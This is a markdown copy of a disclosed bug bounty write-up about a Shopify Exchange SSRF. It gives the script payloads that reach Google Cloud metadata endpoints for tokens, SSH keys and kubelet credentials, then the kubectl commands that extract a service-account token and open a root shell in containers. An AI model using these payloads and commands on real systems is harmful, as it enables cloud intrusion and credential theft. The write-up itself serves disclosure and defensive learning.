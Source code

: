 ## SSRF in Exchange leads to ROOT access in all instances
https://hackerone.com/reports/341876

The Exploit Chain - How to get root access on all Shopify instances

### Access Google Cloud Metadata 
1. Create a store (partners.shopify.com) 
2. Edit the template password.liquid and add the following content:

```
<script>
window.location="http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token";
// iframes don't work here because Google Cloud sets the `X-Frame-Options: SAMEORIGIN` header.
</script>
```
3. Go to https://exchange.shopify.com/create-a-listing and install the Exchange app
4. Wait for the store screenshot to appear on the Create Listing page
5. Download the PNG and open it using image editing software or convert it to JPEG (Chrome displays a black PNG)

Exploring SSRFs in Google Cloud instances require a special header.
The /v1beta1 endpoint is still available, does not require the Metadata-Flavor: Google header 

* the web screenshot software wasn't producing any images for application/text responses
* add the parameter alt=json to force application/json responses

```
<script>
window.location="http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json";
</script>
```

### Dumping kube-env 

* Made a new request to: http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/kube-env?alt=json in order to see the rest of the Kubelet certificate and the Kubelet private key.

Able to get all the certificate

### Using Kubelet to execute arbitrary commands

```
$ kubectl --client-certificate client.crt --client-key client.pem --certificate-authority ca.crt --server https://example.com/ get pods --all-namespaces
```

Creating new pdo 

```
kubectl --client-certificate client.crt --client-key client.pem --certificate-authority ca.crt --server https://████████ create -f https://k8s.io/docs/tasks/debug-application-cluster/shell-demo.yaml

kubectl --client-certificate client.crt --client-key client.pem --certificate-authority ca.crt --server https://██████████ delete pod shell-demo
```
Getting shell was not allowed

```
$ kubectl --client-certificate client.crt --client-key client.pem --certificate-authority ca.crt --server https://█████████ exec -it shell-demo -- /bin/bash

Error from server (Forbidden): pods "shell-demo" is forbidden: User "███" cannot create pods/exec in the namespace "default": Unknown user "███"
```


The get secrets command doesn't work, but it's possible to describe a given pod and the get the secret using its name and leaked the kubernetes.io service account token using the instance ████ from the namespace ████:


```
$ kubectl --client-certificate client.crt --client-key client.pem --certificate-authority ca.crt --server https://███ describe pods/█████ -n █████████

Name:           ████████
Namespace:      ██████
Node:           ██████████
Start Time:     Fri, 23 Mar 2018 13:53:13 +0000
Labels:         █████
                ████
                █████
Annotations:    <none>
Status:         Running
IP:             █████████
Controlled By:  █████
Containers:
  default-http-backend:
    Container ID:   docker://███
    Image:          ██████
    Image ID:       docker-pullable://█████
    Port:           ████/TCP
    Host Port:      0/TCP
    State:          Running
      Started:      Sun, 22 Apr 2018 03:23:09 +0000
    Last State:     Terminated
      Reason:       Error
      Exit Code:    2
      Started:      Fri, 20 Apr 2018 23:39:21 +0000
      Finished:     Sun, 22 Apr 2018 03:23:07 +0000
    Ready:          True
    Restart Count:  180
    Limits:
      cpu:     10m
      memory:  20Mi
    Requests:
      cpu:        10m
      memory:     20Mi
    Liveness:     http-get http://:███/healthz delay=30s timeout=5s period=10s #success=1 #failure=3
    Environment:  <none>
    Mounts:
      ██████
Conditions:
  Type           Status
  Initialized    True
  Ready          True
  PodScheduled   True
Volumes:
 ██████████:
    Type:        Secret (a volume populated by a Secret)
    SecretName: ███████
    Optional:    false
QoS Class:       Guaranteed
Node-Selectors:  <none>
Tolerations:     node.kubernetes.io/not-ready:NoExecute for 300s
                 node.kubernetes.io/unreachable:NoExecute for 300s
Events:          <none>
```

```
$ kubectl --client-certificate client.crt --client-key client.pem --certificate-authority ca.crt --server https://██████ get secret███████ -n ███████ -o yaml

apiVersion: v1
data:
  ca.crt: ██████████
  namespace: ████
  token: ██████████==
kind: Secret
metadata:
  annotations:
    kubernetes.io/service-account.name: default
    kubernetes.io/service-account.uid: ████
  creationTimestamp: 2017-01-23T16:08:19Z
  name:█████
  namespace: ██████████
  resourceVersion: "115481155"
  selfLink: /api/v1/namespaces/████████/secrets/████
  uid: █████████
type: kubernetes.io/service-account-token
```

And finally, it's possible to use this token to get a shell in any container:

```
$ kubectl --certificate-authority ca.crt --server https://████ --token "█████.██████.███" exec -it w█████████ -- /bin/bash

Defaulting container name to web.
Use 'kubectl describe pod/w█████████' to see all of the containers in this pod.
███████:/# id
uid=0(root) gid=0(root) groups=0(root)
█████:/# ls
app  boot   dev  exec  key  lib64  mnt  proc  run   srv  start  tmp  var
bin  build  etc  home  lib  media  opt  root  sbin  ssl  sys    usr
███████:/# exit
```
